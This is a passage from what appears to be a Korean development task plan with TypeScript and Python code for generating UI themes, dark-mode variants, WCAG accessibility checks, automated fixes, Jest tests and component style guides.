        const improvedColor = await this.improveContrast(pair.text, pair.bg, 4.5);

        // 조정된 색상 적용
        this.applyColorAdjustment(adjustedColors, pair.text, improvedColor);
      }
    }

    return adjustedColors;
  }

  private generateColorShades(baseColor: string): ColorShades {
    const hsl = this.hexToHsl(baseColor);

    return {
      50: this.hslToHex({ ...hsl, l: Math.min(95, hsl.l + 45) }),
      100: this.hslToHex({ ...hsl, l: Math.min(90, hsl.l + 40) }),
      200: this.hslToHex({ ...hsl, l: Math.min(80, hsl.l + 30) }),
      300: this.hslToHex({ ...hsl, l: Math.min(70, hsl.l + 20) }),
      400: this.hslToHex({ ...hsl, l: Math.min(60, hsl.l + 10) }),
      500: baseColor, // base
      600: this.hslToHex({ ...hsl, l: Math.max(10, hsl.l - 10) }),
      700: this.hslToHex({ ...hsl, l: Math.max(20, hsl.l - 20) }),
      800: this.hslToHex({ ...hsl, l: Math.max(30, hsl.l - 30) }),
      900: this.hslToHex({ ...hsl, l: Math.max(40, hsl.l - 40) }),
    };
  }

  private async generateDarkVariant(lightTheme: Partial<Theme>): Promise<Partial<Theme>> {
    const darkColors = { ...lightTheme.colors };

    // 배경색 반전
    darkColors.semantic.background = {
      default: '#121212',
      paper: '#1e1e1e',
      inverse: '#ffffff',
    };

    // 텍스트 색상 조정
    darkColors.semantic.text = {
      primary: 'rgba(255, 255, 255, 0.87)',
      secondary: 'rgba(255, 255, 255, 0.6)',
      disabled: 'rgba(255, 255, 255, 0.38)',
      inverse: '#000000',
    };

    // 주요 색상 밝기 조정
    for (const colorKey of ['primary', 'secondary', 'success', 'warning', 'error', 'info']) {
      if (darkColors[colorKey]) {
        // 다크 모드에서는 채도를 낮추고 밝기를 조정
        darkColors[colorKey] = this.adjustColorForDarkMode(darkColors[colorKey]);
      }
    }

    // 그림자 조정 (다크 모드에서는 더 미묘하게)
    const darkShadows = this.adjustShadowsForDarkMode(lightTheme.shadows);

    return {
      colors: darkColors,
      shadows: darkShadows,
    };
  }

  async exportTheme(theme: Theme, format: string, framework: string): Promise<string> {
    const exporters = {
      mui: () => this.exportAsMuiTheme(theme),
      chakra: () => this.exportAsChakraTheme(theme),
      antd: () => this.exportAsAntdTheme(theme),
      tailwind: () => this.exportAsTailwindConfig(theme),
      css: () => this.exportAsCssVariables(theme),
      scss: () => this.exportAsScssVariables(theme),
      json: () => JSON.stringify(theme, null, 2),
    };

    const exporter = exporters[format] || exporters['json'];
    return exporter();
  }

  private exportAsMuiTheme(theme: Theme): string {
    return `
import { createTheme } from '@mui/material/styles';

export const theme = createTheme({
  palette: {
    mode: '${theme.mode}',
    primary: {
      main: '${theme.colors.primary[500]}',
      light: '${theme.colors.primary[300]}',
      dark: '${theme.colors.primary[700]}',
      contrastText: '#fff',
    },
    secondary: {
      main: '${theme.colors.secondary[500]}',
      light: '${theme.colors.secondary[300]}',
      dark: '${theme.colors.secondary[700]}',
      contrastText: '#fff',
    },
    error: {
      main: '${theme.colors.error[500]}',
    },
    warning: {
      main: '${theme.colors.warning[500]}',
    },
    info: {
      main: '${theme.colors.info[500]}',
    },
    success: {
      main: '${theme.colors.success[500]}',
    },
    background: ${JSON.stringify(theme.colors.semantic.background, null, 2)},
    text: ${JSON.stringify(theme.colors.semantic.text, null, 2)},
  },
  typography: {
    fontFamily: '${theme.typography.fontFamily.base}',
    h1: {
      fontSize: '${theme.typography.fontSize['5xl']}',
      fontWeight: ${theme.typography.fontWeight.bold},
      lineHeight: ${theme.typography.lineHeight.tight},
    },
    h2: {
      fontSize: '${theme.typography.fontSize['4xl']}',
      fontWeight: ${theme.typography.fontWeight.semibold},
      lineHeight: ${theme.typography.lineHeight.tight},
    },
    h3: {
      fontSize: '${theme.typography.fontSize['3xl']}',
      fontWeight: ${theme.typography.fontWeight.semibold},
      lineHeight: ${theme.typography.lineHeight.normal},
    },
    body1: {
      fontSize: '${theme.typography.fontSize.base}',
      lineHeight: ${theme.typography.lineHeight.normal},
    },
    body2: {
      fontSize: '${theme.typography.fontSize.sm}',
      lineHeight: ${theme.typography.lineHeight.normal},
    },
  },
  spacing: ${theme.spacing.unit},
  shape: {
    borderRadius: ${parseInt(theme.borderRadius.md)},
  },
  shadows: [
    'none',
    '${theme.shadows.xs}',
    '${theme.shadows.sm}',
    '${theme.shadows.md}',
    '${theme.shadows.lg}',
    '${theme.shadows.xl}',
    // ... more shadows
  ],
  breakpoints: {
    values: ${JSON.stringify(theme.breakpoints, null, 2)},
  },
  transitions: {
    duration: {
      shortest: ${parseInt(theme.transitions.fast)},
      shorter: ${parseInt(theme.transitions.normal) * 0.8},
      short: ${parseInt(theme.transitions.normal)},
      standard: ${parseInt(theme.transitions.normal) * 1.2},
      complex: ${parseInt(theme.transitions.slow)},
      enteringScreen: ${parseInt(theme.transitions.normal)},
      leavingScreen: ${parseInt(theme.transitions.fast)},
    },
    easing: ${JSON.stringify(theme.transitions.easing, null, 2)},
  },
  zIndex: ${JSON.stringify(theme.zIndex, null, 2)},
});

export default theme;`;
  }
}

// 컴포넌트별 테마 생성
class ComponentThemer {
  async generateComponentThemes(
    baseTheme: Partial<Theme>,
    componentLibrary: string,
  ): Promise<ComponentTheme> {
    const componentTheme: ComponentTheme = {
      button: await this.generateButtonTheme(baseTheme),
      input: await this.generateInputTheme(baseTheme),
      card: await this.generateCardTheme(baseTheme),
      modal: await this.generateModalTheme(baseTheme),
      navigation: await this.generateNavigationTheme(baseTheme),
      table: await this.generateTableTheme(baseTheme),
      // ... more components
    };

    return componentTheme;
  }

  private async generateButtonTheme(baseTheme: Partial<Theme>): Promise<any> {
    return {
      variants: {
        primary: {
          backgroundColor: baseTheme.colors.primary[500],
          color: '#ffffff',
          hover: {
            backgroundColor: baseTheme.colors.primary[600],
          },
          active: {
            backgroundColor: baseTheme.colors.primary[700],
          },
          disabled: {
            backgroundColor: baseTheme.colors.semantic.action.disabledBackground,
            color: baseTheme.colors.semantic.action.disabled,
          },
        },
        secondary: {
          backgroundColor: 'transparent',
          color: baseTheme.colors.primary[500],
          border: `1px solid ${baseTheme.colors.primary[500]}`,
          hover: {
            backgroundColor: baseTheme.colors.primary[50],
          },
        },
        ghost: {
          backgroundColor: 'transparent',
          color: baseTheme.colors.semantic.text.primary,
          hover: {
            backgroundColor: baseTheme.colors.semantic.action.hover,
          },
        },
      },
      sizes: {
        small: {
          padding: `${baseTheme.spacing[1]} ${baseTheme.spacing[2]}`,
          fontSize: baseTheme.typography.fontSize.sm,
        },
        medium: {
          padding: `${baseTheme.spacing[2]} ${baseTheme.spacing[4]}`,
          fontSize: baseTheme.typography.fontSize.base,
        },
        large: {
          padding: `${baseTheme.spacing[3]} ${baseTheme.spacing[6]}`,
          fontSize: baseTheme.typography.fontSize.lg,
        },
      },
      borderRadius: baseTheme.borderRadius.md,
      transition: `all ${baseTheme.transitions.normal} ${baseTheme.transitions.easing.default}`,
    };
  }
}
```

**검증 기준**:

- [ ] 색상 이론 기반 팔레트 생성
- [ ] WCAG 접근성 자동 보장
- [ ] 다크 모드 자동 생성
- [ ] 주요 UI 라이브러리 형식 지원

#### SubTask 4.12.3: 접근성 가이드라인 자동화

**담당자**: 접근성 전문가  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/ui_accessibility_automation.py
from typing import Dict, List, Tuple, Optional, Any
from dataclasses import dataclass
from enum import Enum
import re

@dataclass
class AccessibilityIssue:
    type: str
    severity: str  # 'error', 'warning', 'info'
    element: str
    description: str
    wcag_criterion: str
    success_criterion: str
    level: str  # 'A', 'AA', 'AAA'
    suggestion: str
    automated_fix: Optional[str] = None
    code_example: Optional[str] = None

class WCAGLevel(Enum):
    A = "A"
    AA = "AA"
    AAA = "AAA"

class AccessibilityAutomation:
    """UI 접근성 가이드라인 자동화"""

    WCAG_CRITERIA = {
        '1.1.1': {
            'title': 'Non-text Content',
            'level': 'A',
            'description': 'All non-text content has a text alternative'
        },
        '1.3.1': {
            'title': 'Info and Relationships',
            'level': 'A',
            'description': 'Information and relationships are programmatically determined'
        },
        '1.4.3': {
            'title': 'Contrast (Minimum)',
            'level': 'AA',
            'description': 'Text has a contrast ratio of at least 4.5:1'
        },
        '1.4.6': {
            'title': 'Contrast (Enhanced)',
            'level': 'AAA',
            'description': 'Text has a contrast ratio of at least 7:1'
        },
        '2.1.1': {
            'title': 'Keyboard',
            'level': 'A',
            'description': 'All functionality is available from a keyboard'
        },
        '2.4.3': {
            'title': 'Focus Order',
            'level': 'A',
            'description': 'Components receive focus in a logical order'
        },
        '2.4.7': {
            'title': 'Focus Visible',
            'level': 'AA',
            'description': 'Keyboard focus indicator is visible'
        },
        '3.3.2': {
            'title': 'Labels or Instructions',
            'level': 'A',
            'description': 'Labels or instructions are provided for user input'
        },
        '4.1.2': {
            'title': 'Name, Role, Value',
            'level': 'A',
            'description': 'UI components have accessible names and roles'
        }
    }

    def __init__(self):
        self.color_analyzer = ColorContrastAnalyzer()
        self.keyboard_checker = KeyboardAccessibilityChecker()
        self.aria_validator = AriaValidator()
        self.form_analyzer = FormAccessibilityAnalyzer()
        self.focus_manager = FocusManagementAnalyzer()

    async def analyze_ui_accessibility(
        self,
        ui_components: List[UIComponent],
        theme: Theme,
        target_level: WCAGLevel = WCAGLevel.AA
    ) -> AccessibilityReport:
        """UI 컴포넌트의 접근성 분석"""

        issues = []

        # 1. 색상 대비 검사
        color_issues = await self._check_color_contrast(
            ui_components,
            theme,
            target_level
        )
        issues.extend(color_issues)

        # 2. 키보드 접근성 검사
        keyboard_issues = await self._check_keyboard_accessibility(ui_components)
        issues.extend(keyboard_issues)

        # 3. ARIA 속성 검증
        aria_issues = await self._check_aria_compliance(ui_components)
        issues.extend(aria_issues)

        # 4. 폼 접근성 검사
        form_issues = await self._check_form_accessibility(ui_components)
        issues.extend(form_issues)

        # 5. 포커스 관리 검사
        focus_issues = await self._check_focus_management(ui_components)
        issues.extend(focus_issues)

        # 6. 시맨틱 마크업 검사
        semantic_issues = await self._check_semantic_markup(ui_components)
        issues.extend(semantic_issues)

        # 보고서 생성
        report = AccessibilityReport(
            total_issues=len(issues),
            issues_by_severity=self._group_by_severity(issues),
            issues_by_criterion=self._group_by_criterion(issues),
            compliance_score=self._calculate_compliance_score(issues, ui_components),
            recommendations=await self._generate_recommendations(issues),
            automated_fixes=await self._generate_automated_fixes(issues)
        )

        return report

    async def _check_color_contrast(
        self,
        components: List[UIComponent],
        theme: Theme,
        target_level: WCAGLevel
    ) -> List[AccessibilityIssue]:
        """색상 대비 검사"""

        issues = []

        # 대비 비율 요구사항
        contrast_requirements = {
            WCAGLevel.A: {'normal': 3.0, 'large': 3.0},
            WCAGLevel.AA: {'normal': 4.5, 'large': 3.0},
            WCAGLevel.AAA: {'normal': 7.0, 'large': 4.5}
        }

        required_contrast = contrast_requirements[target_level]

        for component in components:
            # 텍스트 요소 찾기
            text_elements = self._find_text_elements(component)

            for element in text_elements:
                foreground = element.get('color') or theme.colors.semantic.text.primary
                background = self._find_background_color(element, component, theme)

                if foreground and background:
                    contrast_ratio = self.color_analyzer.calculate_contrast(
                        foreground,
                        background
                    )

                    text_size = self._get_text_size(element)
                    required_ratio = required_contrast['large'] if text_size >= 18 else required_contrast['normal']

                    if contrast_ratio < required_ratio:
                        issues.append(AccessibilityIssue(
                            type='color_contrast',
                            severity='error',
                            element=element.get('name', 'unknown'),
                            description=f'Insufficient color contrast ratio: {contrast_ratio:.2f}:1 (required: {required_ratio}:1)',
                            wcag_criterion='1.4.3' if target_level == WCAGLevel.AA else '1.4.6',
                            success_criterion=self.WCAG_CRITERIA['1.4.3']['title'],
                            level=target_level.value,
                            suggestion=f'Increase contrast between {foreground} and {background}',
                            automated_fix=self._generate_contrast_fix(
                                foreground,
                                background,
                                required_ratio
                            )
                        ))

        return issues

    def _generate_contrast_fix(
        self,
        foreground: str,
        background: str,
        required_ratio: float
    ) -> str:
        """대비 개선을 위한 자동 수정 생성"""

        # 더 어두운/밝은 색상 계산
        improved_foreground = self.color_analyzer.improve_contrast(
            foreground,
            background,
            required_ratio
        )

        return f"color: {improved_foreground}; /* Improved from {foreground} */"

    async def _check_keyboard_accessibility(
        self,
        components: List[UIComponent]
    ) -> List[AccessibilityIssue]:
        """키보드 접근성 검사"""

        issues = []

        for component in components:
            # 대화형 요소 찾기
            interactive_elements = self._find_interactive_elements(component)

            for element in interactive_elements:
                # 키보드 접근 가능 여부
                if not self.keyboard_checker.is_keyboard_accessible(element):
                    issues.append(AccessibilityIssue(
                        type='keyboard_accessibility',
                        severity='error',
                        element=element.get('name', 'unknown'),
                        description='Element is not keyboard accessible',
                        wcag_criterion='2.1.1',
                        success_criterion='Keyboard',
                        level='A',
                        suggestion='Ensure element can receive keyboard focus and be activated via keyboard',
                        automated_fix=self._generate_keyboard_fix(element),
                        code_example=self._generate_keyboard_example(element)
                    ))

                # 포커스 표시 여부
                if not element.get('focusVisible', True):
                    issues.append(AccessibilityIssue(
                        type='focus_visible',
                        severity='warning',
                        element=element.get('name', 'unknown'),
                        description='Focus indicator is not visible',
                        wcag_criterion='2.4.7',
                        success_criterion='Focus Visible',
                        level='AA',
                        suggestion='Add visible focus indicator',
                        automated_fix='outline: 2px solid currentColor; outline-offset: 2px;'
                    ))

        return issues

    def _generate_keyboard_fix(self, element: Dict[str, Any]) -> str:
        """키보드 접근성 수정 생성"""

        element_type = element.get('type', 'div')

        if element_type in ['div', 'span'] and element.get('interactive'):
            return f'tabindex="0" role="button" onKeyPress={{handleKeyPress}}'
        elif element_type == 'a' and not element.get('href'):
            return 'href="#" onClick={(e) => { e.preventDefault(); handleClick(); }}'

        return ''

    async def _check_aria_compliance(
        self,
        components: List[UIComponent]
    ) -> List[AccessibilityIssue]:
        """ARIA 속성 검증"""

        issues = []

        for component in components:
            aria_elements = self._find_aria_elements(component)

            for element in aria_elements:
                # ARIA 역할 검증
                role = element.get('role')
                if role and not self.aria_validator.is_valid_role(role):
                    issues.append(AccessibilityIssue(
                        type='invalid_aria_role',
                        severity='error',
                        element=element.get('name', 'unknown'),
                        description=f'Invalid ARIA role: {role}',
                        wcag_criterion='4.1.2',
                        success_criterion='Name, Role, Value',
                        level='A',
                        suggestion=f'Use a valid ARIA role',
                        automated_fix=self.aria_validator.suggest_role(element)
                    ))

                # 필수 ARIA 속성 확인
                required_attrs = self.aria_validator.get_required_attributes(role)
                for attr in required_attrs:
                    if not element.get(f'aria-{attr}'):
                        issues.append(AccessibilityIssue(
                            type='missing_aria_attribute',
                            severity='error',
                            element=element.get('name', 'unknown'),
                            description=f'Missing required ARIA attribute: aria-{attr}',
                            wcag_criterion='4.1.2',
                            success_criterion='Name, Role, Value',
                            level='A',
                            suggestion=f'Add aria-{attr} attribute',
                            code_example=self._generate_aria_example(role, attr)
                        ))

        return issues

    async def generate_accessibility_guidelines(
        self,
        framework: str,
        component_library: str,
        target_level: WCAGLevel = WCAGLevel.AA
    ) -> AccessibilityGuidelines:
        """프레임워크별 접근성 가이드라인 생성"""

        guidelines = AccessibilityGuidelines(
            framework=framework,
            component_library=component_library,
            target_level=target_level,
            components={}
        )

        # 공통 컴포넌트별 가이드라인
        common_components = [
            'Button', 'Link', 'Form', 'Input', 'Select',
            'Checkbox', 'Radio', 'Modal', 'Menu', 'Table'
        ]

        for component_name in common_components:
            guidelines.components[component_name] = await self._generate_component_guidelines(
                component_name,
                framework,
                component_library,
                target_level
            )

        # 전역 접근성 설정
        guidelines.global_settings = await self._generate_global_settings(
            framework,
            target_level
        )

        # 테스트 케이스 생성
        guidelines.test_cases = await self._generate_test_cases(
            framework,
            target_level
        )

        return guidelines

    async def _generate_component_guidelines(
        self,
        component_name: str,
        framework: str,
        library: str,
        level: WCAGLevel
    ) -> ComponentAccessibilityGuideline:
        """컴포넌트별 접근성 가이드라인 생성"""

        # 컴포넌트별 특화 가이드라인
        component_guidelines = {
            'Button': {
                'requirements': [
                    'Must be keyboard accessible (Enter/Space to activate)',
                    'Must have visible focus indicator',
                    'Must have accessible name (visible text or aria-label)',
                    'Disabled state must be properly communicated'
                ],
                'aria_attributes': {
                    'aria-pressed': 'For toggle buttons',
                    'aria-expanded': 'For buttons that control expandable content',
                    'aria-label': 'When button has no visible text',
                    'aria-describedby': 'For additional context'
                },
                'code_examples': {
                    'react': """
<Button
  onClick={handleClick}
  aria-label="Save document"
  aria-pressed={isToggled}
  disabled={isDisabled}
  className="focus:ring-2 focus:ring-offset-2"
>
  Save
</Button>""",
                    'vue': """
<button
  @click="handleClick"
  :aria-pressed="isToggled"
  :disabled="isDisabled"
  class="focus:ring-2 focus:ring-offset-2"
>
  Save
</button>"""
                }
            },
            'Form': {
                'requirements': [
                    'All inputs must have associated labels',
                    'Error messages must be programmatically associated',
                    'Required fields must be indicated accessibly',
                    'Form submission errors must be announced'
                ],
                'aria_attributes': {
                    'aria-labelledby': 'For complex labeling',
                    'aria-describedby': 'For help text and errors',
                    'aria-required': 'For required fields',
                    'aria-invalid': 'For validation state'
                },
                'code_examples': {
                    'react': """
<form onSubmit={handleSubmit} aria-label="Contact form">
  <div>
    <label htmlFor="email">
      Email
      <span aria-label="required">*</span>
    </label>
    <input
      id="email"
      type="email"
      aria-required="true"
      aria-invalid={errors.email ? 'true' : 'false'}
      aria-describedby={errors.email ? 'email-error' : 'email-help'}
    />
    {errors.email && (
      <span id="email-error" role="alert">
        {errors.email}
      </span>
    )}
    <span id="email-help" className="help-text">
      We'll never share your email
    </span>
  </div>
</form>"""
                }
            },
            'Modal': {
                'requirements': [
                    'Focus must be trapped within modal',
                    'Focus must return to trigger element on close',
                    'Must be closable with Escape key',
                    'Background must be marked as inert'
                ],
                'aria_attributes': {
                    'role': 'dialog',
                    'aria-modal': 'true',
                    'aria-labelledby': 'Title element ID',
                    'aria-describedby': 'Description element ID'
                },
                'implementation_notes': {
                    'focus_management': 'Use focus trap library or implement custom solution',
                    'screen_reader': 'Announce modal opening and closing',
                    'keyboard': 'Handle Escape key and Tab cycling'
                }
            }
        }

        guideline = component_guidelines.get(component_name, {})

        return ComponentAccessibilityGuideline(
            component=component_name,
            requirements=guideline.get('requirements', []),
            aria_attributes=guideline.get('aria_attributes', {}),
            code_examples=guideline.get('code_examples', {}),
            implementation_notes=guideline.get('implementation_notes', {}),
            testing_checklist=await self._generate_component_test_checklist(
                component_name,
                level
            )
        )

    async def _generate_global_settings(
        self,
        framework: str,
        level: WCAGLevel
    ) -> Dict[str, Any]:
        """전역 접근성 설정 생성"""

        return {
            'focus_management': {
                'visible_focus': """
/* Visible focus styles for all interactive elements */
:focus {
  outline: 2px solid var(--focus-color, #0066cc);
  outline-offset: 2px;
}

/* For better visibility on dark backgrounds */
:focus:not(:focus-visible) {
  outline: none;
}

:focus-visible {
  outline: 2px solid var(--focus-color, #0066cc);
  outline-offset: 2px;
}""",
                'skip_links': """
<!-- Skip to main content link -->
<a href="#main-content" class="skip-link">
  Skip to main content
</a>

<style>
.skip-link {
  position: absolute;
  left: -9999px;
  z-index: 999;
}

.skip-link:focus {
  position: absolute;
  left: 50%;
  transform: translateX(-50%);
  top: 0;
  padding: 8px 16px;
  background: #000;
  color: #fff;
  text-decoration: none;
}
</style>"""
            },
            'color_system': {
                'ensure_contrast': True,
                'color_blind_safe': True,
                'high_contrast_mode': """
@media (prefers-contrast: high) {
  :root {
    --text-color: #000;
    --bg-color: #fff;
    --border-color: #000;
  }
}"""
            },
            'motion_preferences': {
                'reduced_motion': """
@media (prefers-reduced-motion: reduce) {
  *,
  *::before,
  *::after {
    animation-duration: 0.01ms !important;
    animation-iteration-count: 1 !important;
    transition-duration: 0.01ms !important;
  }
}"""
            },
            'semantic_html': {
                'landmarks': ['header', 'nav', 'main', 'aside', 'footer'],
                'headings': 'Use proper heading hierarchy (h1-h6)',
                'lists': 'Use ul/ol for lists, not divs',
                'buttons_vs_links': 'Buttons for actions, links for navigation'
            }
        }

    async def generate_automated_fixes(
        self,
        issues: List[AccessibilityIssue],
        framework: str
    ) -> Dict[str, str]:
        """접근성 이슈 자동 수정 생성"""

        fixes = {}

        for issue in issues:
            if issue.automated_fix:
                fix_key = f"{issue.element}_{issue.type}"

                if framework == 'react':
                    fixes[fix_key] = self._convert_to_react_fix(issue.automated_fix)
                elif framework == 'vue':
                    fixes[fix_key] = self._convert_to_vue_fix(issue.automated_fix)
                else:
                    fixes[fix_key] = issue.automated_fix

        return fixes

    def _convert_to_react_fix(self, fix: str) -> str:
        """React 형식으로 변환"""

        # HTML 속성을 React props로 변환
        fix = fix.replace('class=', 'className=')
        fix = fix.replace('for=', 'htmlFor=')
        fix = re.sub(r'aria-(\w+)=', r'aria-\1=', fix)

        return fix

    def _convert_to_vue_fix(self, fix: str) -> str:
        """Vue 형식으로 변환"""

        # 동적 속성 처리
        if 'true' in fix or 'false' in fix:
            fix = re.sub(r'(\w+)="(true|false)"', r':\1="\2"', fix)

        return fix

class AccessibilityTestGenerator:
    """접근성 테스트 자동 생성"""

    async def generate_test_suite(
        self,
        components: List[UIComponent],
        framework: str,
        test_framework: str = 'jest'
    ) -> str:
        """접근성 테스트 스위트 생성"""

        if test_framework == 'jest':
            return await self._generate_jest_tests(components, framework)
        elif test_framework == 'cypress':
            return await self._generate_cypress_tests(components)
        else:
            raise ValueError(f"Unsupported test framework: {test_framework}")

    async def _generate_jest_tests(
        self,
        components: List[UIComponent],
        framework: str
    ) -> str:
        """Jest 테스트 생성"""

        test_template = """
import { render, screen } from '@testing-library/react';
import { axe, toHaveNoViolations } from 'jest-axe';
import userEvent from '@testing-library/user-event';

expect.extend(toHaveNoViolations);

describe('Accessibility Tests', () => {
  {component_tests}
});
"""

        component_tests = []

        for component in components:
            test = f"""
  describe('{component.name} Accessibility', () => {{
    test('should not have any accessibility violations', async () => {{
      const {{ container }} = render(<{component.name} />);
      const results = await axe(container);
      expect(results).toHaveNoViolations();
    }});

    test('should be keyboard accessible', () => {{
      render(<{component.name} />);
      const element = screen.getByRole('{component.role}');

      // Tab to element
      userEvent.tab();
      expect(element).toHaveFocus();

      // Activate with keyboard
      userEvent.keyboard('{{Enter}}');
      // Add assertions for keyboard activation
    }});

    test('should have proper ARIA attributes', () => {{
      render(<{component.name} />);
      const element = screen.getByRole('{component.role}');

      {self._generate_aria_assertions(component)}
    }});
  }});"""

            component_tests.append(test)

        return test_template.format(
            component_tests='\n'.join(component_tests)
        )
```

**검증 기준**:

- [ ] WCAG 2.1 기준 자동 검사
- [ ] 컴포넌트별 가이드라인 생성
- [ ] 자동 수정 제안
- [ ] 테스트 코드 생성

#### SubTask 4.12.4: 컴포넌트 스타일 가이드 생성

**담당자**: UI/UX 개발자  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/ui-style-guide-generator.ts
interface StyleGuide {
  name: string;
  version: string;
  description: string;
  theme: Theme;
  components: ComponentStyleGuide[];
  patterns: DesignPattern[];
  utilities: UtilityClasses;
  documentation: Documentation;
  examples: InteractiveExamples;
}

interface ComponentStyleGuide {
  name: string;
  category: string;
  description: string;
  props: PropDefinition[];
  variants: ComponentVariant[];
  states: ComponentState[];
  examples: CodeExample[];
  guidelines: DesignGuideline[];
  accessibility: AccessibilityNote[];
}

class StyleGuideGenerator {
  private componentAnalyzer: ComponentAnalyzer;
  private exampleGenerator: ExampleGenerator;
  private documentationBuilder: DocumentationBuilder;
  private storybookGenerator: StorybookGenerator;

  async generateStyleGuide(
    project: ProjectRequirements,
    theme: Theme,
    components: UIComponent[],
    framework: string,
  ): Promise<StyleGuide> {
    // 1. 컴포넌트 분석 및 카테고리화
    const categorizedComponents = await this.componentAnalyzer.categorize(components);

    // 2. 컴포넌트별 스타일 가이드 생성
    const componentGuides = await Promise.all(
      categorizedComponents.map((component) =>
        this.generateComponentGuide(component, theme, framework),
      ),
    );

    // 3. 디자인 패턴 추출
    const patterns = await this.extractDesignPatterns(componentGuides);

    // 4. 유틸리티 클래스 생성
    const utilities = await this.generateUtilityClasses(theme);

    // 5. 문서화 생성
    const documentation = await this.documentationBuilder.build({
      components: componentGuides,
      theme,
      patterns,
    });

    // 6. 인터랙티브 예제 생성
    const examples = await this.generateInteractiveExamples(componentGuides, framework);

    return {
      name: `${project.name} Style Guide`,
      version: '1.0.0',
      description: 'Comprehensive style guide for the project',
      theme,
      components: componentGuides,
      patterns,
      utilities,
      documentation,
      examples,
    };
  }

  private async generateComponentGuide(
    component: CategorizedComponent,
    theme: Theme,
    framework: string,
  ): Promise<ComponentStyleGuide> {
    // Props 정의
    const props = await this.analyzeComponentProps(component, framework);

    // 변형 생성
    const variants = await this.generateVariants(component, theme);

    // 상태 정의
    const states = this.defineComponentStates(component);

    // 코드 예제 생성
    const examples = await this.exampleGenerator.generateExamples(
      component,
      { props, variants, states },
      framework,
    );

    // 디자인 가이드라인
    const guidelines = await this.generateDesignGuidelines(component);

    // 접근성 노트
    const accessibility = await this.generateAccessibilityNotes(component);

    return {
      name: component.name,
      category: component.category,
      description: component.description,
      props,
      variants,
      states,
      examples,
      guidelines,
      accessibility,
    };
  }

  private async generateVariants(
    component: CategorizedComponent,
    theme: Theme,
  ): Promise<ComponentVariant[]> {
    const variants: ComponentVariant[] = [];

    // 크기 변형
    if (component.supportsSizing) {
      variants.push({
        name: 'size',
        values: ['small', 'medium', 'large'],
        default: 'medium',
        styles: {
          small: {
            padding: `${theme.spacing[1]} ${theme.spacing[2]}`,
            fontSize: theme.typography.fontSize.sm,
          },
          medium: {
            padding: `${theme.spacing[2]} ${theme.spacing[4]}`,
            fontSize: theme.typography.fontSize.base,
          },
          large: {
            padding: `${theme.spacing[3]} ${theme.spacing[6]}`,
            fontSize: theme.typography.fontSize.lg,
          },
        },
      });
    }

    // 색상 변형
    if (component.supportsColor) {
      variants.push({
        name: 'color',
        values: ['primary', 'secondary', 'success', 'warning', 'error'],
        default: 'primary',
        styles: Object.keys(theme.colors).reduce((acc, color) => {
          if (theme.colors[color]?.[500]) {
            acc[color] = {
              backgroundColor: theme.colors[color][500],
              color: this.getContrastColor(theme.colors[color][500]),
            };
          }
          return acc;
        }, {}),
      });
    }

    // 모양 변형
    if (component.supportsVariant) {
      variants.push({
        name: 'variant',
        values: ['solid', 'outline', 'ghost'],
        default: 'solid',
        styles: {
          solid: {
            backgroundColor: 'var(--color-primary)',
            color: 'white',
            border: 'none',
          },
          outline: {
            backgroundColor: 'transparent',
            color: 'var(--color-primary)',
            border: '1px solid currentColor',
          },
          ghost: {
            backgroundColor: 'transparent',
            color: 'var(--color-primary)',
            border: 'none',
          },
        },
      });
    }

    return variants;
  }

  async generateStorybookStories(
    styleGuide: StyleGuide,
    framework: string,
  ): Promise<StorybookConfig> {
    const stories = await this.storybookGenerator.generateStories(styleGuide.components, framework);

    const config = await this.storybookGenerator.generateConfig(styleGuide.theme, framework);

    return {
      stories,
      config,
      addons: ['@storybook/addon-essentials', '@storybook/addon-a11y'],
      decorators: await this.generateDecorators(styleGuide.theme, framework),
    };
  }

  private async generateDecorators(theme: Theme, framework: string): Promise<string[]> {
    const decorators: string[] = [];

    // 테마 데코레이터
    if (framework === 'react') {
      decorators.push(`
export const withTheme = (Story) => (
  <ThemeProvider theme={theme}>
    <Story />
  </ThemeProvider>
);`);
    } else if (framework === 'vue') {
      decorators.push(`
export const withTheme = () => ({
  template: '<story />',
  provide: {
    theme: theme
  }
});`);
    }

    return decorators;
  }

  async generateLivingStyleGuide(
    styleGuide: StyleGuide,
    options: {
      platform: 'web' | 'native';
      interactive: boolean;
      exportFormat: 'html' | 'pdf' | 'figma';
    },
  ): Promise<string> {
    if (options.platform === 'web') {
      return this.generateWebStyleGuide(styleGuide, options);
    } else {
      return this.generateNativeStyleGuide(styleGuide, options);
    }
  }

  private async generateWebStyleGuide(styleGuide: StyleGuide, options: any): Promise<string> {
    const template = `
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>${styleGuide.name}</title>
  <style>
    ${await this.generateStyleGuideCSS(styleGuide.theme)}
  </style>
</head>
<body>
  <div class="style-guide">
    <header class="sg-header">
      <h1>${styleGuide.name}</h1>
      <p>${styleGuide.description}</p>
    </header>
    
    <nav class="sg-nav">
      ${this.generateNavigation(styleGuide)}
    </nav>
    
    <main class="sg-main">
      ${await this.generateSections(styleGuide)}
    </main>
  </div>
  
  ${options.interactive ? await this.generateInteractiveScripts() : ''}
</body>
</html>`;

    return template;
  }

  private async generateSections(styleGuide: StyleGuide): Promise<string> {
    const sections: string[] = [];

    // 색상 팔레트 섹션
    sections.push(await this.generateColorSection(styleGuide.theme));

    // 타이포그래피 섹션
    sections.push(await this.generateTypographySection(styleGuide.theme));

    // 간격 시스템 섹션
    sections.push(await this.generateSpacingSection(styleGuide.theme));

    // 컴포넌트 섹션
    for (const component of styleGuide.components) {
      sections.push(await this.generateComponentSection(component));
    }

    // 패턴 섹션
    sections.push(await this.generatePatternsSection(styleGuide.patterns));

    return sections.join('\n');
  }

  private async generateComponentSection(component: ComponentStyleGuide): Promise<string> {
    return `
<section id="${component.name.toLowerCase()}" class="sg-section">
  <h2>${component.name}</h2>
  <p>${component.description}</p>
  
  <div class="sg-subsection">
    <h3>Props</h3>
    <table class="sg-props-table">
      <thead>
        <tr>
          <th>Name</th>
          <th>Type</th>
          <th>Default</th>
          <th>Description</th>
        </tr>
      </thead>
      <tbody>
        ${component.props
          .map(
            (prop) => `
          <tr>
            <td><code>${prop.name}</code></td>
            <td><code>${prop.type}</code></td>
            <td><code>${prop.default || '-'}</code></td>
            <td>${prop.description}</td>
          </tr>
        `,
          )
          .join('')}
      </tbody>
    </table>
  </div>
  
  <div class="sg-subsection">
    <h3>Variants</h3>
    <div class="sg-variants">
      ${component.variants
        .map(
          (variant) => `
